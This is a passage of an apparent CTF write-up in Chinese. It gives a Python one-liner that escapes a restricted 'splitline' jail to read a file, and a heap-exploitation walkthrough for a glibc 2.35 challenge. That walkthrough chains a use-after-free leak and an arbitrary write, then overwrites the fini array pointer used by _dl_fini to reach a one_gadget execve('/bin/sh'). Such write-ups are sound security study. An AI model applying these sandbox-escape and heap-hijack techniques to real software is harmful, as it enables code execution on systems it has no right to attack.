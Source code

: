 2. splitline - one-liner

```python
print(os:=__import__('os'),d:=os.scandir(os.open(".",0)),f:=open(next(d).name),f.read())
```

- 不確定為什麼不會觸發 close，當初在測試時 `scandir()`

另外 maple 有提供一篇 python seccomp bypass 的 CTF 題目 [35c3ctf: Collection - an Unintended Solution!](https://www.da.vidbuchanan.co.uk/blog/35c3ctf-collection-writeup.html)，後續類似題目可以參考。



## RE

Heap 題，提供了 `realloc()` 做 malloc 與 free，程式設計中有明顯的 UAF，不過 `read()` 會 append 一個 NULL byte，並且分配的數量有限制。以下為利用流程：

1. UAF leak heap address
2. 構造 unsorted bin leak library address
3. 任意寫位址控制執行流程

比較麻煩的是執行環境為 glibc 2.35，因此沒有 hook 可以用，比賽過程中我嘗試蓋寫 libc 的 GOT 來控制執行流程，不過 one gadget 的條件不滿足，並且 stack 與相關 register 都不可控。

賽後參考 https://uz56764.tistory.com/87 在 `_dl_fini()` 找到的方式，也滿足 one gadget 的使用條件：

```
=> 0x15555552021a <_dl_fini+474>:       mov    rax,QWORD PTR [rax+0x8]
   0x15555552021e <_dl_fini+478>:       add    rax,QWORD PTR [r15]
   0x155555520221 <_dl_fini+481>:       mov    rsi,rax
   0x155555520224 <_dl_fini+484>:       mov    QWORD PTR [rbp-0x40],rax
   0x155555520228 <_dl_fini+488>:       mov    rax,QWORD PTR [r15+0x120]
   0x15555552022f <_dl_fini+495>:       mov    rdx,QWORD PTR [rax+0x8]
   0x155555520233 <_dl_fini+499>:       shr    rdx,0x3
   0x155555520237 <_dl_fini+503>:       lea    eax,[rdx-0x1]
   0x15555552023a <_dl_fini+506>:       lea    rax,[rsi+rax*8]
   0x15555552023e <_dl_fini+510>:       test   edx,edx
   0x155555520240 <_dl_fini+512>:       je     0x15555552025f <_dl_fini+543>
   0x155555520242 <_dl_fini+514>:       nop    WORD PTR [rax+rax*1+0x0]
   0x155555520248 <_dl_fini+520>:       mov    QWORD PTR [rbp-0x38],rax
   0x15555552024c <_dl_fini+524>:       call   QWORD PTR [rax]
```

- L1 - rax 會是 0x3d90 定值
- L2 - r15 會是 ld 的 .data，因此可寫
  - 原本的值會是 `__do_global_dtors_aux_fini_array_entry[]`，為 binary 的 fini array
  - 該變數為會是一個 function pointer array，儲存 binary destructor
- L5~L7 - 取出 fini array 一共有多少個 element，預設為 1
- L14 - 呼叫對應的 function pointer

也就是說，在 ld.data 中寫入 **heap - 0x3d90**，就會呼叫 **[heap]**，這時如果使用下面的 one gadget，雖然 `$rbp - 0x70` 不會是 NULL，但是該位址會是一連串合法的 pointer，最後緊接著 NULL，因此還是可以滿足條件：

```
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```
